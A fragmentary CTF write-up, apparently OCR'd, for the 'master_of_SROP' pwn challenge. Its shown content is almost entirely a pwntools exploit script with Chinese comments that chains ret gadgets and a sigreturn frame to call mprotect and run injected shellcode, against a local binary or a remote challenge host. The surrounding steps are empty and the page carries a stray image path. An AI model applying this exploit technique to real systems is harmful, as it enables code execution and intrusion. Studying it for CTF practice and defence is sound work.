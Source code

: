 2. 







4. EXP:

   ```py
   from pwn import *
   # context(os='linux', arch='amd64', log_level='debug')
   context.arch = 'amd64'
   context.log_level = 'debug'
   
   def debug():
       gdb.attach(p)
   
   choose = 2
   if choose == 1 :    # 远程
       success("远程")
       p = remote("node4.anna.nssctf.cn",28111)
       libc = ELF("/home/kali/Desktop/haha/libc-2.27.so")
       # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc-2.27.so')
       # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.39-0ubuntu8_amd64/libc.so.6')
   
   else :              # 本地
       success("本地")
       p = process("./master_of_SROP")
       libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
       debug()
       # libc = ELF('/home/kali/Desktop/source_code/glibc-2.38_lib/lib/libc.so.6')
       # ld = ELF("ld.so") 
   pause()
   
   
   SYS_read_ret = 0x000000000401000
   syscall_ret = 0x000000000401008
   ret_addr = 0x000000000401012
   # 先抬高栈
   
   payload = p64(ret_addr)*20 + p64(SYS_read_ret)*4 + b"a"*4     # 系统掉用0xc4 控制rax=0 继续衔接read
   p.send(payload)
   pause()
   payload = p64(ret_addr)*11 + p64(SYS_read_ret)*4 + b"a"*(4+9*8)     # 系统掉用0xc4 控制rax=0 继续衔接read
   p.send(payload)
   
   pause()
   
   # 构造frame,表示mprotect(0x401000,0x1000,7)
   payload = p64(0x401008) +p64(SYS_read_ret) + p64(ret_addr) + p64(0) * 13
   payload += p64(0x401000) + p64(0x1000)   # rdi rsi
   
   payload += b'\x89\xfe\x89\xfa\x31\xff\x0f\x05' # rbp
   payload += b'\x89\xfe\x89\xfa\x31\xff\x0f\x05' # rbx
   payload += p64(7)+p64(10)   # rdx rax ==> mprotect 系统调用号为10
   payload += p64(0)
   payload += p64(0x400F2A)    # rsp 新的栈
   payload += b"\x08\x10\x40\x00"    # ip ==> 寄存器完成复制后衔接 syscall 
   # payload += p64(syscall_ret) + b"\x33\x00\x00\x00"
   
   p.send(payload)
   
   pause()
   
   p.send(p64(syscall_ret) + b"a"*7)
   ```